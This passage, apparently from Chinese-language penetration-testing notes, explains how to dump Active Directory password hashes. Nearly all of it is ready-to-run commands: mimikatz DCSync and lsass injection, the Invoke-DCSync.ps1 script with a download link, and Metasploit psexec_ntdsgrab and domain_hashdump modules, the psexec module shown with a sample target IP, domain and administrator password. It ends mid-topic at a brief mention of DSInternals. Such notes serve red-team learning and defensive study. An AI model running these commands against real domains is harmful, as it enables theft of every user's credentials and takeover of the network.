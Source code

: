 导出域内所有用户的用户名和哈希值

```
lsadump::dcsync /domain:teamssix.com /all /csv
```

导出域内指定用户的用户名和哈希值

```
lsadump::dcsync /domain:teamssix.com /user:administrator
```

也可以通过转储 lsass.exe 进行 dump 操作

```
privilege::debug
lsadump::lsa /inject
```

> 如果输出内容太多，可以使用 log 命令，这样操作就都会被记录到文本里了

### Invoke-DCSync.ps1

该脚本通过 Invoke-ReflectivePEinjection 调用 mimikatz.dll 中的 dcsync 功能，并利用 dcsync 直接读取 ntds.dit 得到域用户密码散列值

Invoke-DCSync.ps1 下载地址：[https://gist.github.com/monoxgas/9d238accd969550136db](https://gist.github.com/monoxgas/9d238accd969550136db)

```
Import-Module ./Invoke-DCSync.ps1
Invoke-DCSync -PWDumpFormat
```

### MSF

msf 里的 psexec_ntdsgrab 可以获取目标的 ntds.dit 和 SYSTEM 并将其保存到 /root/.msf4/loot/ 目录下 

```
use auxiliary/admin/smb/psexec_ntdsgrab
set rhosts 192.168.7.7
set smbdomain teamssix.com
set smbuser administrator
set smbpass 1qaz@WSX
run
```

除此之外，在获取到会话后，也可以直接用 MSF 提供的模块获取 ntds.dit

```
use windows/gather/credentials/domain_hashdump
set session 1
run
```

> 注意生成的 payload 需要和目标系统位数一致，不然会报错

### DSInternals

DSInternals 主要功能包括离线 ntds.dit 文件操作以及通过目录复制服务（DRS）远程协议查询域控制器。

